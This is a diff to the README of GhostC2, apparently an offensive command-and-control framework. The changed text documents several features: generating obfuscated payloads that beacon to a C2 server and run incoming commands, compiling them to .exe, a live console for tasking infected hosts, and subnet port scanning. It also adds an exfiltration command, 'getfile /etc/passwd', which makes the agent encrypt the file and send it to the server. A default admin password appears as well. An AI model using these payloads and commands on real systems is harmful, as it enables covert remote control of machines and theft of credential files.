

Before and after one commit to wolfwashere/GhostC2, a Markdown page: README.md, the part around the change printed below. Shown: that part at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -57,39 +59,31 @@ Visit [http://localhost:8080](http://localhost:8080)
 ```
 Username: admin
 Password: ghostpass123
+```
 
-
-```
 ---
 
 ## 👾 Payloads
 
 ### ✅ WebSocket Agent *(experimental – not recommended for active use)*
-Basic agent that connects via WebSocket:
-
 ```bash
 python payloads/ghost_socket_payload.py
 ```
 
 ---
 
-### 🧬 Generate Polymorphic Payload *(recommended)*
-This will generate an obfuscated Python payload that beacons to your GhostC2 server and executes incoming commands.
-
+### 🧼 Generate Polymorphic Payload *(recommended)*
 ```bash
-# Generate a Python payload only
+# Generate Python payload
 python tools/generate_payload.py
 
-# Generate Python + compile to .exe (requires PyInstaller)
+# With .exe output
 python tools/generate_payload.py --exe
 ```
-
-Output will be saved to the `builds/` directory.
 
 ---
 
 ### 🌐 Example: Generate payload for 10.10.10.10
-
 ```bash
 python tools/generate_payload.py \
   --c2 http://10.10.10.10:8080/beacon \
@@ -97,7 +91,6 @@ python tools/generate_payload.py \
 ```
 
 To also compile to `.exe`:
-
 ```bash
 python tools/generate_payload.py \
   --c2 http://10.10.10.10:8080/beacon \
@@ -105,30 +98,46 @@ python tools/generate_payload.py \
   --exe
 ```
 
+---
+
 ## 🖥️ Live Console Terminal
 
-GhostC2 now includes a fully interactive web-based console interface for live beacon tasking and output.
+GhostC2 includes a web-based console for interacting with beacons in real-time.
+
+### ✅ Features
+
+- WebSocket-powered command/result loop
+- Real-time session interaction
+- Preloaded recon commands
+- JSON result support (e.g., `scan`)
+- Beacon targeting + logging
 
 ---
 
-### ✅ Features
+## 📂 File Exfiltration
 
-- Real-time command input/output per beacon
-- Command and result formatting like a real terminal
-- Preset task dropdown for quick recon commands
-- Host selector for targeting individual beacons
-- WebSocket-powered live updates
-- Direct link from dashboard to console
+### Command
+```bash
+getfile /etc/passwd
+```
+
+Agent will:
+1. Base64 the file
+2. AES encrypt the result
+3. Send to server
+4. Server saves to `server/downloads/<hostname>/`
 
 ---
 
-### 📍 Accessing the Console
+## 🔍 Network Scanning (New)
 
-From the dashboard, click:
-
-```
-→ Open Live Console
+### Command
+```bash
+scan 192.168.0.0/24 ports:80,443,445,3389
 ```
 
-Or visit directly:
+Agent will:
+- Scan the provided subnet and ports
+- Return open/closed results in JSON
+- Format them in the dashboard
 
````
Also changed, not shown: other parts of README.md (+24 -164 lines).
